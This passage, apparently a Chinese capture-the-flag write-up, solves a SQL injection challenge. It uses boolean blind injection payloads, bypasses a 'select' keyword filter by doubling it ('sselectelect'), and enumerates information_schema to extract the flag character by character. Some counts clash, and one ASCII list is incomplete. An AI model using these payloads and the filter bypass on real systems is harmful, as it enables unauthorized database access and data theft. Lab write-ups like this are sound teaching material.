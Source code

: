 ![alt text](image-8.png)   
若length(database())>=7则报错，所以database()长度为6    
接下来分别求database()每个字母的ASCII值，输入id=1' and ascii(substr(database(),n,1))<=108 --+   
_变换后面比较的值可以来判断第n个字母的ASCII值_    
分别得到六个字母的ASCII值为    
`108，101，118，101，108，50，所以database()名字为'level2'`   
然后正常步骤我们需要获取表的数量，所以输入：  
`1' and (select count(table_name) from information_schema.tables where table_schema=database()) <=n --+`
更改n的值来测  
但是发现就算把n改成1000000000000000000都不能得出正确结果，输入肯定是没问题的，联想题目，猜测是select被屏蔽了，所以我们尝试绕过屏蔽，在select中再输入一遍select，输入：    
`1' and (sselectelect count(table_name) from information_schema.tables where table_schema=database()) <=n --+`
这次有结果了，最后发现结果是2，所以一共有两个表      
接下来取得两个表的名字，输入：        
`1' and length((sselectelect table_name from information_schema.tables where table_schema=database() limit 0,1)) >= n --+`  
更改n的值得到第一个表名的长度为13，    
接下来是取得第一个表名各个字符的ASCII值，输入：    
`1' and ascii(substr((sselectelect table_name from information_schema.tables where table_schema=database() limit 0,1),m,1))>=n --+`  
更改m和n的值，得到14个字母的ASCII值分别为  
102，102，102，108，108，108，108，108，97，97，97，103，103，103所以第一个表名为'ffflllllaaaggg'  
第二个表名长度为11，11个字符ASCII值分别为  
108，101， 118， 101， 50， 95，117， 115， 101，114，， 第二个表名为'level2_user'  
然后获取两个表里面的列，输入：
`1' and (sselectelect count(column_name) from information_schema.columns where table_schema=database() and table_name='表名')判断表达式 --+`
第一个表里就一个列，应该就是flag所在的列了，输入：
`1' and length(substr((sselectelect column_name from information_schema.columns where table_name= 'ffflllllaaaggg' limit 0,1),1))判断表达式 --+`
得到该列名长度为15，然后获列名，输入：
`1' and ascii(substr((sselectelect column_name from information_schema.columns where table_name = 'ffflllllaaaggg' limit 0,1),n,1))判断表达式 --+`
15个字符的ASCII值分别为   
102，108，97，97，97，97，97，97，97，97，97，97，97，97，103，所以列名为flaaaaaaaaaaaag;   
再获取字段长度，输入：    
`1' and length(substr((sselectelect flaaaaaaaaaaaag from ffflllllaaaggg limit 0,1),1))>=判断表达式--+`
得到字段长度为42，42个字符的ASCII值分别为
102，108，97，103，123，101，97，97，98，49，56，55，97，45，50，49，98，50，45，48，102，97，56，45，98，51，53，57，45，51，48，54，57，52，49，51，54，102，54，53，100，125，转换为字符得到flag为   
flag{eaab187a-21b2-0fa8-b359-30694136f65d}  
